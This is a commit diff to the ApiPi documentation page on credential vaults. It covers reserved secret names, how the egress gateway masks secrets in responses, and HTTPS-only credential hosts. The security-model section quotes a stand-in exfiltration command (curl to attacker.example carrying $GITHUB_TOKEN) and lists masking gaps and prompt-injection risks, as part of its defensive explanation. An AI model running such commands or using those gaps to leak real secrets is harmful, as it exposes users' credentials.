

Before and after one commit to GEKI-AI/apipi, an MkDocs documentation site: the page built from docs/vaults.md, in a window 1280 px wide and 1400 px high, scrolled down 7215 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Document masking scope, decode limit, and HTTPS-only credential hosts
Co-Authored-By: Claude Opus 5.5 <noreply@anthropic.com>

```diff
--- a/docs/vaults.md
+++ b/docs/vaults.md
@@ -112,7 +112,7 @@ id. See [tools](tools.md#mcp) for MCP tools.
 
 | Field | Rules |
 | --- | --- |
-| `auth.secret_name` | The environment variable name in the sandbox. It matches `^[A-Za-z_][A-Za-z0-9_]*$` and is unique in the vault (`400` `secret_name_collision` otherwise). Reserved names are `400`, because ApiPi or guest init sets them: any name that starts with `OPENAI_`, `APIPI_`, `PI_`, or `CODEX_`; `GIT_CONFIG_COUNT`, `GIT_CONFIG_KEY_<n>`, and `GIT_CONFIG_VALUE_<n>`; and `PATH`, `HOME`, `USER`, `SHELL`, `PWD`, `LD_PRELOAD`, `LD_LIBRARY_PATH`, `NODE_OPTIONS`, `DATABASE_URL`, `SSL_CERT_FILE`, `REQUESTS_CA_BUNDLE`, `GIT_SSL_CAINFO`, `NODE_EXTRA_CA_CERTS`, `CURL_CA_BUNDLE`, `NPM_CONFIG_CACHE`, `npm_config_cache`, `UV_CACHE_DIR`, and the guest init variables `WS`, `CA_BUNDLE`, `CA_DIR`, and `cmd`. |
+| `auth.secret_name` | The environment variable name in the sandbox. It matches `^[A-Za-z_][A-Za-z0-9_]*$` and is unique in the vault (`400` `secret_name_collision` otherwise). Reserved names are `400`, because ApiPi, git, or guest init uses them: any name that starts with `OPENAI_`, `APIPI_`, `PI_`, `CODEX_`, `GIT_`, or `AGENT_BROWSER_`; and `PATH`, `HOME`, `USER`, `SHELL`, `PWD`, `LD_PRELOAD`, `LD_LIBRARY_PATH`, `NODE_OPTIONS`, `DATABASE_URL`, `SSL_CERT_FILE`, `REQUESTS_CA_BUNDLE`, `NODE_EXTRA_CA_CERTS`, `CURL_CA_BUNDLE`, `NPM_CONFIG_CACHE`, `npm_config_cache`, `UV_CACHE_DIR`, and the guest init variables `WS`, `CA_BUNDLE`, `CA_DIR`, and `cmd`. |
 | `auth.secret_value` | The secret: 8 to 16,384 characters of printable ASCII (`!` to `~`), without spaces, line breaks, or other control characters. Otherwise `400`. The value goes into HTTP headers, and the gateway masks it in responses, so a very short value could hide ordinary text. Never returned. |
 | `auth.networking.type` | Must be `limited`. |
 | `auth.networking.allowed_hosts` | 1 to 100 exact hostnames such as `api.github.com`. No scheme, port, path, or wildcard. IP addresses are `400`. Names are stored in lowercase, and duplicates are dropped. |
@@ -250,12 +250,14 @@ credential's `allowed_hosts`, the gateway:
    HTTPS all work,
 2. never changes the request line (path and query string) or the
    request body,
-3. asks the server for an uncompressed response (`Accept-Encoding:
+3. removes `Upgrade` and `Connection`, so the connection is never
+   switched to WebSocket or another protocol that it could not mask,
+4. asks the server for an uncompressed response (`Accept-Encoding:
    identity`),
-4. connects to the real host, checks its real certificate, and sends
+5. connects to the real host, checks its real certificate, and sends
    the request,
-5. replaces the secret with the placeholder again in the response
-   headers and in the response body.
+6. masks the secret in the response headers and the response body, and
+   drops response trailers.
 
 The query string is not substituted on purpose. Many APIs accept form
 fields in the query string and store or show them, for example an
@@ -263,21 +265,50 @@ issue title, a search term, or a repository description. If the
 gateway put the secret there, the agent could make the service write
 the real secret into a page that it or other users can read.
 
-To mask the response body, the gateway streams it and replaces every
-copy of a secret with its placeholder, also when a copy is split
-between two network reads. Because the length changes, it removes
-`Content-Length` and sends the body with chunked transfer encoding. If
-the server still compresses the body with `gzip` or `deflate`, the
-gateway decompresses it first and removes `Content-Encoding`. Any other
-encoding, such as `br`, fails the request with `502` and is logged as
-`event=egress.encoding_rejected`. Responses without a body (`HEAD`,
-`204`, `304`) are passed as they are.
+#### What is masked in responses
+
+In the headers and the body of HTTPS responses from a credential's
+hosts, the gateway replaces these strings with the placeholder:
+
+- the exact `secret_value`,
+- its JSON string form (with `\"` and `\\`, with and without `\/`),
+- its percent-encoded forms (as `encodeURIComponent` writes it, and
+  with `/` left as it is),
+- every `Authorization: Basic` token that the gateway built for this
+  host in the session (base64 of `user:secret_value`); it is replaced
+  with the token the guest sent.
+
+The longest string is replaced first. The gateway does not mask other
+transformations of the secret: a hash, a part of the secret, another
+escaping, or base64 of the bare secret that the agent builds itself.
+The masking is defense in depth for the credential hosts you chose, not
+a filter for everything the agent can do (see
+[security model](#security-model)).
+
+The body is streamed. The gateway holds back only the end of a read
+that could be the start of a masked string, which for a random token is
+almost never more than a few bytes, so streaming APIs (server-sent
+events, NDJSON) keep their timing. Because the length can change, the
+gateway removes `Content-Length` and sends the body with chunked
+transfer encoding. If the server still compresses the body with `gzip`
+(one or more members) or `deflate`, the gateway decompresses it in
+small steps first and removes `Content-Encoding`. A compressed body
+that ends early closes the connection before the end of the body, so
+the client sees an error instead of a cut response. A compressed body
+that expands to more than 10 MiB and more than 100 times its compressed
+size is stopped the same way and logged as `event=egress.decode_limit`.
+Any other encoding, such as `br`, fails the request with `502` and is
+logged as `event=egress.encoding_rejected`. Responses without a body
+(`HEAD`, `204`, `304`) are passed as they are.
 
 A request with the placeholder to any other host goes out unchanged,
-and the placeholder alone is worthless. Plain HTTP on port 80 never
-gets a secret. Connections to hosts that no credential names are not
-decrypted: the gateway passes them through byte for byte, so the guest
-sees the real certificate of those servers.
+and the placeholder alone is worthless. Credential hosts are HTTPS
+only: a plain HTTP connection on port 80 to a credential host is
+rejected with `403` (logged with reason `credential_host_plain_http`),
+so a stored secret cannot be read back unmasked over HTTP. Connections
+to hosts that no credential names are not decrypted: the gateway passes
+them through byte for byte, so the guest sees the real certificate of
+those servers.
 
 The gateway logs each injection as `event=egress.injection` with
 `session_id`, `credential_id`, and `host`, and counts it in
@@ -418,18 +449,33 @@ The guest only has a placeholder. A command such as `env`,
 `cat /proc/self/environ`, or
 `curl https://attacker.example/?k=$GITHUB_TOKEN` shows or sends only
 the placeholder, which is worthless outside this sandbox and changes on
-the next start. The gateway also keeps the secret from coming back
+the next start. The gateway also makes it hard to get the secret back
 through the credential hosts: it never puts the secret into the path,
-the query string, or the body of a request, and it masks the secret in
-the response headers and the response body before the guest sees them.
+the query string, or the body of a request, it allows only HTTPS to
+those hosts, and it masks the secret and its common encoded forms in
+the response headers and the response body before the guest sees them
+(see [what is masked](#what-is-masked-in-responses)).
 
-This does not make a leak impossible. The agent decides which request
-header carries the placeholder, and the gateway replaces it in every
-header value. A credential host that stores an arbitrary request header
-and shows it somewhere other than in the response (for example a request
-log, an audit page, or a webhook delivery view that other users can
-read) could still expose the real secret there. Choose
-`allowed_hosts` that you trust with the token, and keep the list short.
+This does not make a leak impossible:
+
+- The agent decides which request header carries the placeholder, and
+  the gateway replaces it in every header value. A credential host that
+  stores an arbitrary request header and shows it somewhere other than
+  in the response (for example a request log, an audit page, or a
+  webhook delivery view that other users can read) could still expose
+  the real secret there.
+- The gateway masks only the forms listed above. A service that returns
+  the secret in another form (hashed, cut, or encoded differently) is
+  not masked.
+- Masking works only on the connections the gateway terminates, that
+  is, HTTPS to a credential host by its name. With `network.access`
+  `enabled`, the guest can also open a connection to the same server by
+  its IP address or with another server name, and the gateway passes
+  that connection through unchanged. Use `restricted`, which allows only
+  connections by allowed hostnames, when this matters.
+
+Choose `allowed_hosts` that you trust with the token, and keep the list
+short.
 
 The agent can always use the token's rights on the allowed hosts. A
 prompt injection that controls the agent could push to a repository,
```
Also changed, not shown: CHANGELOG.md (+1 -1 lines), docs/api.md (+1 -1 lines), docs/environments.md (+3 -2 lines), docs/observability.md (+10 -1 lines), specs/decisions/0016-egress-gateway.md (+36 -16 lines).
